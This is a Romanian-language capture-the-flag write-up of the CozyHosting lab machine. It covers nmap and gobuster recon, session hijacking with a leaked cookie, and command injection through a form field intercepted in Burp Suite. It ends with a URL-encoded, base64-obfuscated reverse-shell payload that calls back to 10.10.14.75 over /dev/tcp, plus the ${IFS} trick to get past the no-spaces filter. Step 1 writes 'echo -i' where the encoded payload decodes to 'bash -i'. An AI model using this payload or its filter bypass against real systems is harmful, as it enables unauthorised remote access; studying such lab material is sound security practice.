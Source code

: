1. User flag :)
Procedam in urmatorul fel facem o scanare cu ajutorul lui [[Tools/nmap]] ca sa putem vedea ce vectori de atack avem si porturile deschise in acelasi moment:
```bash
nmap -sSVC -T 4 <IP> -oN <file>
```
![[Pasted image 20230930183515.png]]
Fisierul de mai jos contine scanarea de mai sus:
![[CozyHosting]]
Deci avem 2 porturi deschise `80`,`22` sa incercam pe cel `80` care este un [[http request smuggling]]:
![[Pasted image 20230930183816.png]]
Dupa ce am acesat pagena vedem urmatoarea situatie:
Trebuie sa facem unele manipulari cu fisierul `/etc/hosts` o sa ne ajute utilita [[nano]] sau [[vi]]:
```bash
sudo nano /etc/hosts
```
Aceste trebuie sa adaugam la sfarsit ca sa putem accesa pagina:
![[Pasted image 20230930184135.png]]
Dupa ce am putut acesa pagena. Trebuie sa facem o scanare a directorilor ascunse. Acest lucru il pot face cu [[gobuster]] in felul urmator:
```bash
gobuster dir -u <URL> -w <wordlist>
```
Ce a gasit [[gobuster]] este foarte ciudat:
![[Pasted image 20230930190342.png]]
Am gasit versiunea la `Bootstrap`: v5.2.3
![[Pasted image 20230930185431.png]]
Aici am privit un pic cu ochiul la un write-up si am gasit urmatorul hint dupa eroarea care apare putem gasi pagina unde sunt useri nostri:
![[Pasted image 20230930191803.png]]
Dar cum sa intelegem eroarea data haideti sa ne clarificam:
Mai mult mam incurcat cu tehnologiea data las un hint ca trebuie sa revin [[Spring Boot]] sper sa nu uit.
	Acum mergem mai departe si trebuie sa inlocuim
`username` =`kanderson`
Am aflat de o utilita nou cu care trebuie sa ma fac mai cunostut in ultimul timp deoarece imi pare foarte interesanta: Denumita [[dirsearch]]
Datele pentru a intra pe panoul de utilizator sunt:
Cookie: `6FCC069420D14861F8ECB0D542E93C31` 
User: `kanderson`
Dupa ce am fost logat cu ajutorul tokenului in partea de jos putem vedea o forma de genu:
![[Pasted image 20231010124754.png]]
Trebuie sa introducem ceva date si dupa sa prindem `requestul` in [[Burp Suite]]:
![[Pasted image 20231010124858.png]]
Inlocuim `text` cu un payload in cazul meu este `%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA%2BJjEK%22%7Cbase64%24%7BIFS%25%3F%3F%7D%2Dd%7Cbash%3B` desi arata foarte strasnic este simplu sa vedem pe pasi:
1. Generam shellul:
		`echo -i >& /dev/tcp/10.10.14.75/9001 0>&1` -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK
2. Generam comanda pentru introducere a comenzii:
		`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK"|base64 -d|bash`
3.  Dar forma noastra nu poate sa fii cu spatii liberi putem folosi `${IFS}` si daca dorim doar space-ul `echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK"|base64${IFS%??}-d|bash`